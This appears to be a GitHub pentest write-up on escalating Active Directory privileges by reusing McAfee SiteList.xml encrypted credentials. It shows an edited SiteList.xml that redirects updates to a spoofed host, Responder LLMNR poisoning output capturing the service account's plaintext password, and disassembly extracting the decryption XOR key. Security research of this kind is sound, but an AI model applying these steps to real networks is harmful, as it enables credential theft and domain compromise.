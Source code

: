 
#### McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

---

#### 16/02/2016 UPDATE

Thanks to [@funoverip](https://twitter.com/funoverip) for his [password decryption tool](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)

Thus to increase my reverse skills I'm back.

```
Executable modules, item 6
 Base=73EB0000
 Size=00028000 (163840.)
 Entry=73EB9B6F cryptshi.<ModuleEntryPoint>
 Name=cryptshi
 File version=2.7.0.815
 Path=C:\Program Files (x86)\McAfee\Common Framework\cryptshim.dll
```

```
; Extract the XOR key
; \x12\x15\x0f\x10\x11\x1c\x1a\x06\x0a\x1f\x1b\x18\x17\x16\x05\x19\x00\x00\x00\x00
0x1001468e C645D812                        mov        byte [ss:ebp+var_28], 0x12
0x10014692 C645D915                        mov        byte [ss:ebp+var_27], 0x15
0x10014696 C645DA0F                        mov        byte [ss:ebp+var_26], 0xf
0x1001469a C645DB10                        mov        byte [ss:ebp+var_25], 0x10
0x1001469e C645DC11                        mov        byte [ss:ebp+var_24], 0x11
0x100146a2 C645DD1C                        mov        byte [ss:ebp+var_23], 0x1c
0x100146a6 C645DE1A                        mov        byte [ss:ebp+var_22], 0x1a
0x100146aa C645DF06                        mov        byte [ss:ebp+var_21], 0x6
0x100146ae C645E00A                        mov        byte [ss:ebp+var_20], 0xa
0x100146b2 C645E11F                        mov        byte [ss:ebp+var_1F], 0x1f
0x100146b6 C645E21B                        mov        byte [ss:ebp+var_1E], 0x1b
0x100146ba C645E318                        mov        byte [ss:ebp+var_1D], 0x18
0x100146be C645E417                        mov        byte [ss:ebp+var_1C], 0x17
0x100146c2 C645E516                        mov        byte [ss:ebp+var_1B], 0x16
0x100146c6 C645E605                        mov        byte [ss:ebp+var_1A], 0x5
0x100146ca C645E719                        mov        byte [ss:ebp+var_19], 0x19
0x100146ce C645D300                        mov        byte [ss:ebp+var_2D], 0x0
0x100146d2 C745C800000000                  mov        dword [ss:ebp+var_38], 0x0
0x100146d9 C745BC00000000                  mov        dword [ss:ebp+var_44], 0x0
0x100146e0 C745B400000000                  mov        dword [ss:ebp+var_4C], 0x0
0x100146e7 8B4D08                          mov        ecx, dword [ss:ebp+arg_0]
0x100146ea E811CCFEFF                      call       exp_?size@ABuffer@crypto@MA@mcafee_com@@QBEKXZ
```

---

#### 02/02/2016 UPDATE

According with [Intel Security response](https://kc.mcafee.com/corporate/index?page=content&id=KB86503) : this is not a security flaw in McAfee's product !

Find best practices [here](https://kc.mcafee.com/corporate/index?page=content&id=KB70999).

---

#### Story

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof using [**Responder**](https://github.com/SpiderLabs/Responder). Actually the SiteList.xml looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and [Responder enters the matrix](https://www.youtube.com/watch?v=NEuZgK669zY).

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on any *Domain Controler* and access all workstations within the domain.

Mission accomplished !

![McAfee](img/McAfee.jpg)

[@tfairane](https://twitter.com/tfairane) greetz [@Fr33ster](https://twitter.com/Fr33ster)
